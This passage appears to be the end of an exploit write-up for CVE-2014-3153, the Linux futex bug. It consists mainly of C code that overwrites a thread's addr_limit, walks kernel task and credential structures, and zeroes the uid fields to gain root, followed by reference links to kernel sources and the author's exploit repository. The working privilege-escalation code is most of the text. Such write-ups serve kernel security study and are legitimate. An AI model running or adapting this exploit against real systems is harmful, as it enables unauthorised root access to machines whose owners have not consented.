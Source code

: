 The `addr_limit` is an excellent target for initial kernel overwrite because once you overwrite it with `0xffffffff`,
you have gotten full arbitrary read and write capabilities to kernel memory.

```c
void kmemcpy(void *src, void *dst, size_t len)
{
    int pipefd[2];

    assert(!pipe(pipefd));
    assert(write(pipefd[1], src, len) == len);
    assert(read(pipefd[0], dst, len) == len);
}

void escalate_priv_sighandler()
{
    struct task_struct *corrupter_task, *main_task;
    struct cred *main_cred;
    unsigned int root_id = 0;
    void *highest_addr = (void *)-1;
    unsigned int i;

    puts(USERLOG "Escalating main thread's privileges to root.");

    kmemcpy(&highest_addr, &corrupter_thread_info->addr_limit, sizeof(highest_addr));
    printf(USERLOG "Written 0x%x to addr_limit.\n", -1);

    kmemcpy(&corrupter_thread_info->task, &corrupter_task, sizeof(corrupter_thread_info->task));
    printf(USERLOG "Corrupter's task_struct @ %p\n", corrupter_task);

    kmemcpy(&corrupter_task->group_leader, &main_task, sizeof(corrupter_task->group_leader));
    printf(USERLOG "Main thread's task_struct @ %p\n", main_task);

    kmemcpy(&main_task->cred, &main_cred, sizeof(main_task->cred));
    printf(USERLOG "Main thread's cred @ %p\n", main_cred);

    for (i = 0; i < COUNT_OF(main_cred->ids); i++)
        kmemcpy(&root_id, &main_cred->ids[i], sizeof(root_id));

    puts(USERLOG "Escalated privileges to root successfully.");
}

void escalate_priv()
{
    pthread_t addr_limit_writer;

    struct sigaction sigact = {.sa_handler = escalate_priv_sighandler};
    assert(!sigaction(SIGINT, &sigact, NULL));
    puts(USERLOG "Registered the privileges escalator signal handler for interrupting the corrupter thread.");

    fake_waiter.list_entry.prio_list.prev = (struct list_head *)&corrupter_thread_info->addr_limit;
    assert(!pthread_create(&addr_limit_writer, NULL, lock_pi_futex, NULL));

    sleep(1);
    pthread_kill(corrupter, SIGINT);
}
```


[challenge]: https://github.com/elongl/pwnable.kr/tree/master/syscall
[Linux Kernel Development]: https://books.google.co.il/books/about/Linux_Kernel_Development.html?id=3MWRMYRwulIC
[Linux Kernel Image]: https://i.imgur.com/vJP3B8i.png
[CVE-2014-3153]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3153
[man futex(2)]: https://man7.org/linux/man-pages/man2/futex.2.html
[man futex(7)]: https://man7.org/linux/man-pages/man7/futex.7.html
[Priority Inheritance]: https://en.wikipedia.org/wiki/Priority_inheritance 
[`plist`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/plist.h
[Priority List Image]: https://i.imgur.com/IBxItuz.png
[bug fix commit]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e9c243a5a6de0be8e584c604d353412584b592f8
[summary of them]: https://github.com/elongl/CVE-2014-3153/blob/master/notes.md#data-structures
[`rt_mutex_start_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L962
[`rt_mutex_finish_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L1033
[`task_blocks_on_rt_mutex()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L405
[`futex_requeue()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1264
[`futex_wait_requeue_pi()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L2285
[`futex_proxy_trylock_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1202
[`futex_lock_pi_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L718
[Bugged Waiter Image]: https://i.imgur.com/Dael9DR.png
[Recap Image]: https://i.imgur.com/0qp366z.png
[atomically]: https://wiki.osdev.org/Atomic_operation
[`cred`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/cred.h#L102
[capabilities]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[GCC releases]: https://gcc.gnu.org/releases.html
[Linux kernel version]: https://en.wikipedia.org/wiki/Linux_kernel_version_history
[futex wrappers]: https://github.com/elongl/CVE-2014-3153/blob/master/futex.c
[Kernel Crash Video]: https://youtu.be/DxPt1MNPDpY
[`___sys_sendmsg()`]: https://elixir.bootlin.com/linux/v3.11.4/source/net/socket.c#L1976
[`man sendmmsg(2)`]: https://man7.org/linux/man-pages/man2/sendmmsg.2.html
[Waiter Overwritten Image]: https://i.imgur.com/npV3oAT.png
[`task_struct`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/sched.h#L1027
[`thread_info`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L25
[Crafted Waiter Image]: https://i.imgur.com/5HtvkBq.png
[New Waiter Image]: https://i.imgur.com/uAJDaJF.png
[`leak_thread_info()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L138
[`current_thread_info()`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L174
[`escalate_priv()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L123
[`escalate_priv_sighandler`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L95
[`sigaction()`]: https://man7.org/linux/man-pages/man2/sigaction.2.html
[`clone()`]: https://man7.org/linux/man-pages/man2/clone.2.html
[`kmemcpy()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L40
[exploit]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c